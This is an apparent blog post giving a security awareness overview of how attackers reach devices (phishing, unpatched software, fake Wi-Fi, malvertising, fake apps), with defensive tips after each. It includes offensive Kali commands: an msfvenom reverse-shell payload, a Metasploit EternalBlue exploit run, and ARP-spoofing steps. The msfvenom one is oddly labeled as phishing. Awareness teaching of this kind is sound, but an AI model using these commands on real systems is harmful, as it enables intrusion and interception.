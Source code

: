 ```yaml
---
title: "How Hackers Gain Access to Devices & How to Defend Yourself"
date: 2025-02-02
categories: [Cybersecurity, Awareness]
tags: [hacking, phishing, malware, security, forensics]
author: rasp-pereira
---
```


## 1. Social Engineering (Advanced Phishing)
Phishing remains one of the most effective hacking techniques, leveraging human psychology rather than technical exploits.

### How the Attack Works:
- Attackers send emails, SMS, or WhatsApp messages impersonating legitimate organizations.
- The message contains a **malicious link** leading to a fake login page.
- The victim unknowingly enters their credentials, allowing hackers to steal passwords.

```bash
# Kali Linux command example for phishing:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > /tmp/phishing_payload.exe
```

### How to Protect Yourself:
✔ Always verify the sender and URL before clicking links.  
✔ Enable **two-factor authentication (2FA)** for extra security.  
✔ Use a **password manager** to detect fake login pages.


## 2. Exploiting Software Vulnerabilities (Zero-Days & Exploits)
Hackers take advantage of **unpatched software vulnerabilities** to gain remote access.

### How the Attack Works:
- Attackers find security flaws in software, operating systems, or browsers.
- They inject malicious scripts into websites, files, or PDFs.
- When the victim opens the infected content, malware is installed silently.

```bash
# Kali Linux command example for exploiting a vulnerability:
searchsploit ms17-010
msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue; set RHOSTS 192.168.1.105; run"
```

### How to Protect Yourself:
✔ Keep your **software and OS updated** to patch vulnerabilities.  
✔ Use **firewalls and endpoint security solutions**.  
✔ Avoid downloading files from **unknown or untrusted sources**.


## 3. Man-in-the-Middle Attacks (Wi-Fi Eavesdropping)
Public Wi-Fi networks can be **hacker-controlled traps** used to intercept sensitive data.

### How the Attack Works:
- Hackers set up a **fake Wi-Fi hotspot** in public places (e.g., "Free_Coffee_Spot").
- Unsuspecting victims connect and unknowingly expose their data.
- Attackers intercept login credentials, emails, and financial details.

```bash
# Kali Linux command example for MITM attack:
airmon-ng start wlan0
airodump-ng wlan0mon
arpspoof -i wlan0 -t 192.168.1.5 192.168.1.1
```

### How to Protect Yourself:
✔ Never connect to **public Wi-Fi without a VPN**.  
✔ Use **HTTPS websites** to encrypt traffic.  
✔ Turn off **Wi-Fi auto-connect** on your devices.


## 4. Malvertising (Drive-By Downloads)
Malicious ads can infect devices without requiring clicks.

### How the Attack Works:
- Cybercriminals insert **malware into online advertisements**.
- These ads appear on legitimate websites, affecting unsuspecting users.
- Simply loading a page with a malicious ad can trigger automatic downloads.

```bash
# Kali Linux command example for detecting malicious traffic:
burpsuite
# Analyze HTTP requests to detect suspicious redirects.
```

### How to Protect Yourself:
✔ Use **ad blockers** like uBlock Origin.  
✔ Keep **browser extensions updated**.  
✔ Disable **JavaScript on untrusted sites**.

## 5. Malicious Mobile Apps
Fake apps can steal data, track activities, and even gain remote control over a device.

### How the Attack Works:
- Hackers create fake apps disguised as legitimate ones.
- Victims install them from **third-party app stores**.
- The app requests excessive permissions and **steals personal data**.

```bash
# Kali Linux command example for mobile app analysis:
apktool d suspicious_app.apk
# Inspect the decompiled code for malicious behavior.
```

### How to Protect Yourself:
✔ Download apps **only from official stores (Google Play, Apple App Store)**.  
✔ Check app **permissions** before installing.  
✔ Use **mobile security software** to detect threats.

## Conclusion: How to Stay Secure
Hackers use **multiple attack vectors**, but with **awareness** and **proactive measures**, you can protect yourself.

✔ **Stay informed** about emerging cyber threats.  
✔ **Keep software updated** to prevent exploits.  
✔ **Enable 2FA** to secure online accounts.  
✔ **Use a VPN** and avoid public Wi-Fi risks.  
✔ **Be skeptical** of unexpected messages and links.

Cybersecurity is not just a technical field—it's a mindset. Stay alert and protect your digital presence! 

---

💬 **What cybersecurity tips do you follow to stay safe?**

**More coming soon**